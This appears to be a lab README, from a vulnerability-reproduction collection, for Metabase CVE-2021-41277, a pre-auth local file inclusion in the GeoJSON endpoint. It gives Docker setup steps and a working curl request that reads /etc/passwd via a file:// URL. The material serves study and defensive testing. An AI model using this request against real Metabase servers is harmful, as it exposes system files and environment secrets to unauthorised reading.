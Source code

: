 # Metabase Pre-Auth Local File Inclusion (CVE-2021-41277)

[中文版本(Chinese version)](README.zh-cn.md)

Metabase is an open source data analytics platform. In affected versions (x.40.0-x.40.4) a security issue has been discovered with the custom GeoJSON map (`admin->settings->maps->custom maps->add a map`) support, unauthenticated attackers can use this vulnerability to read local file (including environment variables).

References:

- <https://github.com/metabase/metabase/security/advisories/GHSA-w73v-6p7p-fpfr>
- <https://github.com/tahtaciburak/CVE-2021-41277>

## Environment Setup

Execute following command to start a Metabase server 0.40.4:

```
docker compose up -d
```

After the server is started, you can browse the `http://your-ip:3000` to see the installation instructions like that:

![](1.png)

Fill in your information, and skip the data source form.

## Vulnerability Reproduce

Simplely use the CURL to exploit this flaw:

```
curl -v http://your-ip:3000/api/geojson?url=file:////etc/passwd
```

As you can see, `/etc/passwd` has been exposed successfully.

![](2.png)
